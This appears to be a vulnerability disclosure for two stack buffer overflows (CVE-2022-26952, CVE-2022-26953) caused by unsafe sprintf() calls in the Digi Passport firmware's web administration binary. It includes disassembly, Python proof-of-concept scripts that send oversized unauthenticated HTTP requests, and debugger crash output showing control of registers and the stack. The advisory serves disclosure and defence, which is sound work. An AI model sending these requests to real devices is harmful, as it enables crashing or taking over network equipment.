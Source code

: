 Vulnerability details
----
- Product: Digi Passport (Firmware 1.5.1,1 - 7/11/2021)
- Discovered by: Juan Manuel Fernández ([@TheXC3LL](https://twitter.com/TheXC3LL)) & Matt Johnson ([@breakfix](https://twitter.com/breakfix)) from MDSec

The vulnerabilities are present in the "webs" binary, which is responsible for the web administration service. Both share the same common pattern: the insecure use of sprintf() for string concatenation.


# Buffer Overflow (I) CVE-2022-26952

When an unauthenticated user attempts to access endpoints that require a valid session, the user is redirected to "authen.asp?page=" plus the endpoint (for example, /authen.asp?page=/ilo.asp).



```
addi    r0, r31, 0x8c {var_1b4}
mr      r3, r0 {var_1b4}
lis     r9, 0x1016
addi    r4, r9, 0x1210  {data_10161210, "authen.asp?page=%s"}
lwz     r5, 524(r31) {var_34_1}
bl      sprintf
addi    r0, r31, 0x8c {var_1b4}
lwz     r3, 504(r31) {var_48}
mr      r4, r0 {var_1b4}
bl      sub_100197c8
li      r0, 0x1
stw     r0, 548(r31) {var_1c}  {0x1}
b       0x1001d314
```


This concatenation is done via a sprintf() which does not take into account the original buffer size, so it is possible to get an out-of-bounds write if a long enough string is supplied. This can be achieved by adding a long parameter in the request to the endpoint (e.g., /ilo.asp?aaaa(...)aaaaaa).:

```
import socket


r9 = "BBBB"
padding1 = "C" * 72
frame = "XXXX"



poc = r9 + padding1 + frame 

base = "A" * 339 #"A" * 339


query = "GET /ilo.asp?"
query += base
query += poc
query += " HTTP/1.1\nHost: localhost"
query += "\r\n\r\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 80))
s.sendall(query)

```

In this way, it is possible to corrupt the stack:


```
Program received signal SIGSEGV, Segmentation fault. 
0x1001985c in ?? () 
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA 
──────────────────────────────────────[ REGISTERS ]──────────────────────────────────────
 R30x0  
*R40x10160aaa ◂— andis. r16, r3, 0x3a2f /* 'tp://' */
 R50x0  
*R60xfefefeff 
*R70x7f7f7f7f 
*R80x74 
*R90x42424242 ('BBBB') 
*R10  0xffffd57f ◂— 0x0
*R11  0x68 
*R12  0xfa53d00 ◂— b0xfa53d14 /* 'H' */ 
*R13  0x10219b78 ◂— 0x0
 R14  0x0  
 R15  0x0  
 R16  0x0  
 R17  0x0  
 R18  0x0  
 R19  0x0  
 R20  0x0  
 R21  0x0  
 R22  0x0  
 R23  0x0  
 R24  0x0  
 R25  0x0  
 R26  0x0  
*R27  0xff7fce60 —▸ 0xffffe744 —▸ 0xffffe85e ◂— 'usr/sbin/webs' 
*R28  0x102d5950 ◂— '/ilo.asp'  
*R29  0x102d1d40 ◂— cmpwi  cr6, r0, 0 /* 0x2f000000; '/' */  
*R30  0xfb1c73c ◂— 0x13ef18  
*R31  0xffffd200 —▸ 0xffffd230 —▸ 0xffffd470 ◂— 0x43434343 ('CCCC')
*SP0xffffd200 —▸ 0xffffd230 —▸ 0xffffd470 ◂— 0x43434343 ('CCCC') 
```


```
pwndbg> bt
#0  0x1001985c in ?? ()
#1  0x10019820 in ?? ()
#2  0x1001d2e4 in ?? ()
#3  0x58585858 in ?? ()
Backtrace stopped: previous frame inner to this frame (corrupt stack?)

```


# Buffer Overflow (II) CVE-2022-26953

Similarly for the "reboot.asp" endpoint. When the "mode=4" parameter is supplied, it displays an HTML where it includes the string supplied from the "page" parameter ("reboot.asp?mode=4&page=something"). This concatenation between the "page" parameter and the HTML is done with a sprintf() without prior size checking.

```
lwz     r3, 236(r31)
lis     r9, 0x1016
addi    r4, r9, 0x3588  {data_10163588, "page"}
lis     r9, 0x1016
addi    r5, r9, 0x357c  {data_1016357c, "login.asp"}
bl      sub_10019354
mr      r11, r3
addi    r0, r31, 0x10
mr      r3, r0
lis     r9, 0x1016
addi    r4, r9, 0x3f00  {data_10163f00, "HTTP is not available. Please, <…"}
mr      r5, r11
bl      sprintf
b       0x10024084
```

Because of this it is possible to write outside the buffer bounds:

```
import socket


base = "A" * 180
r9 = "BBBB"
padding1 = "A" * 36
frame = "CCCC"

poc = r9 + padding1 + frame 

query = "GET /reboot.asp?mode=4&page="
query += base
query += poc
query += " HTTP/1.1\nHost: localhost"
query += "\r\n\r\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 80))
s.sendall(query)
```
```
Program received signal SIGSEGV, Segmentation fault.      
0x10019f50 in ?? ()       
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA 
──────────────────────────────────────[ REGISTERS ]───────────────────────────────────────
*R3   0x102d6128 ◂— addis  r3, r20, 0x723e /* 0x3c74723e; '<tr><td bgcolor=#000084 height=22><font color=#FFFFFF><b>' */
*R4   0x102d6101 ◂— 0x746572      
*R5   0x1 
*R6   0xfefefeff  
*R7   0x7f7f7f7f  
*R8   0x800000    
*R9   0x42424242 ('BBBB') 
*R10  0x2 
*R11  0xffffcbb0 —▸ 0xffffcbe0 —▸ 0xffffcc90 —▸ 0xffffccd0 —▸ 0xffffcde0 ◂— ...   
*R12  0xfa543b4 ◂— b      0xfa543c8 /* 'H' */     
*R13  0x10219b78 ◂— 0x0   
 R14  0x0 
 R15  0x0 
 R16  0x0 
 R17  0x0 
 R18  0x0 
 R19  0x0 
 R20  0x0 
 R21  0x0
 R22  0x0
 R23  0x0
 R24  0x0
 R25  0x0
 R26  0x0
*R27  0xff7fce60 —▸ 0xffffe744 —▸ 0xffffe85e ◂— 'usr/sbin/webs'       
*R28  0x102d4b50 ◂— '/reboot.asp' 
*R29  0x102d60c8 ◂— addis  r3, r20, 0x723e /* 0x3c74723e; '<tr><td bgcolor=#000084 height=22><font color=#FFFFFF><b>' */
*R30  0xfb1c73c ◂— 0x13ef18       
*R31  0xffffcbb0 —▸ 0xffffcbe0 —▸ 0xffffcc90 —▸ 0xffffccd0 —▸ 0xffffcde0 ◂— ...   
*SP   0xffffcbb0 —▸ 0xffffcbe0 —▸ 0xffffcc90 —▸ 0xffffccd0 —▸ 0xffffcde0 ◂— ...   
*PC   0x10019f50 ◂— lwz    r0, 0x4d4(r9)  
```


```
pwndbg> bt
#0  0x10019f50 in ?? ()
#1  0x10019f38 in ?? ()
#2  0x10019ec4 in ?? ()
#3  0x1005dcc4 in ?? ()
#4  0x100240a0 in ?? ()
#5  0x42424242 in ?? ()
```
